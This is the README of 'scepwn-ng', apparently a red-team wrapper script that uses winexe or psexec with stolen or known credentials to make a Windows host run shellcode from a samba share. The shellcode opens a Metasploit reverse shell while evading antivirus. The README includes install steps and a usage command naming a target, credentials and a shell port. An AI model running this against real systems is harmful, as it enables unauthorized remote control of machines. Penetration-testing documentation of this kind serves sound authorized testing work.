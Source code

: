 scepwn-ng
@thejosko <jskorich@secureworks.com>

INTRODUCTION
============
scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 


INSTALL
=======
Basic Setup for a kali box (skyfire):
		$ cd /opt
		$ git clone https://github.com/CoreSecurity/impacket.git
		$ cd impacket; python setup.py install
		$ cd /opt; git clone https://github.com/inquisb/shellcodeexec.git

If not using Kali, you will also need to install metasploit and winexe, as well as possibly modify the tool locations.

USAGE
=====
		./scepwn-ng.rb [optional]

**Example:**
		./scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444

Note - All options are just that.. optional. If you leave anything out it will ask you for it.


**Options:**
		-t, --target TARGET              
																		Target IP address
		-u, --user CREDENTIALS           
																		Credentials in DOMAIN/USERNAME%PASSWORD format
		-p, --port PORT                  
																		Reverse shell port number (default: 443)
		-s, --service SERVICE            
																		winexe or psexec (default: winexe)
		-h, --help                       
																		Display this screen
             
